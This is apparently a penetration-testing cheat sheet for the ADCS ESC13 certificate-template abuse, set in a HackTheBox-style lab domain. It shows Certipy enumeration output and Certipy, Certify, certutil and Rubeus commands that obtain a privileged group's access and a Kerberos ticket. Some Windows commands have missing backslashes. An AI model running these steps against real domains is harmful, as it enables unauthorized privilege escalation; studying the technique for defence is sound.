

### Content

- [Overview](#overview)
	- [Requirements](#requirements)
- [From Linux](#from-linux)
	- [Linux - Enumeration](#linux---enumeration)
	- [Linux - Abuse](#linux---abuse)
- [From Windows](#from-windows)
	- [Windows - Enumeration](#windows---enumeration)
	- [Windows - Abuse](#windows---abuse)

> [ADCS ESC13](https://specterops.io/blog/2024/02/14/adcs-esc13-abuse-technique/?source=)

---
### Overview

If a principal (user or computer) has enrollment rights on a certificate template configured with an issuance policy that has an OID group link, then this principal can enroll a certificate that allows obtaining access to the environment as a member of the group specified in the OID group link.

What if that OID group link is a pointer for an over privileged group where the enrollee user is not originally a member of that group? that's where ESC13 shines.



#### Requirements

1. The principal has enrollment rights on a certificate template.
2. The certificate template has an issuance policy extension.
3. The issuance policy has an OID group link to a group.
4. The certificate template has no issuance requirements the principal cannot meet.
5. The certificate template defines EKUs that enable client authentication.

---
### From Linux
#### Linux - Enumeration

```bash
$ certipy find -u 'c.roberts@ping.htb' -k -no-pass -dc-ip 10.129.245.56 -target dc1.ping.htb -vulnerable -stdout
[SNIP]
Certificate Templates
  0
    Template Name                       : TemporaryWinRM
    Display Name                        : Temporary WinRM
    Certificate Authorities             : ping-DC1-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-12-23T17:19:28+00:00
    Template Last Modified              : 2025-12-27T21:12:15+00:00
    Issuance Policies                   : 1.3.6.1.4.1.311.21.8.5808481.4086498.12600997.2067446.8927163.214.489503.1996623
    Linked Groups                       : CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb
    Permissions
      Enrollment Permissions
        Enrollment Rights               : PING.HTB\Domain Admins
                                          PING.HTB\Domain Users
                                          PING.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : PING.HTB\Administrator
        Full Control Principals         : PING.HTB\Domain Admins
                                          PING.HTB\Enterprise Admins
        Write Owner Principals          : PING.HTB\Domain Admins
                                          PING.HTB\Enterprise Admins
        Write Dacl Principals           : PING.HTB\Domain Admins
                                          PING.HTB\Enterprise Admins
        Write Property Enroll           : PING.HTB\Domain Admins
                                          PING.HTB\Domain Users
                                          PING.HTB\Enterprise Admins
    [+] User Enrollable Principals      : PING.HTB\Domain Users
    [!] Vulnerabilities
      ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb'.
```

#### Linux - Abuse

```bash
# Request a certificate from the exposed template
$ certipy req -u 'c.roberts@ping.htb' -target dc1.ping.htb -target-ip 10.129.28.48 -dc-ip 10.129.28.48 -dc-host dc1.ping.htb -k -no-pass -ca 'PING-DC1-CA' -template 'TemporaryWinRM'

# Authenticate using the certificate to get a TGT
$ certipy auth -pfx c.roberts.pfx -domain ping.htb -dc-ip 10.129.28.48

# Use the TGT with evil-wintrm
$ evil-winrm -i dc1.ping.htb -r ping.htb
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> whoami
ping\c.roberts
```

---
### From Windows 
#### Windows - Enumeration

```Powershell
PS C:\> .\Certify.exe find /vulnerable
```

#### Windows - Abuse

```Powershell
# Request a certificate from the template
PS C:> .Certify.exe request /ca:PING-DC1-CA /template:TemporaryWinRM

# save the private key as esc13.key and the certificate as esc13.pem, then create the esc13.pfx
PS C:> certutil -MergePFX .esc13.pem .esc13.pfx

# Request a Kerberos TGT using Rubeus
PS C:> .Rubeus.exe asktgt /user:c.roberts /certificate:esc13.pfx /nowrap
```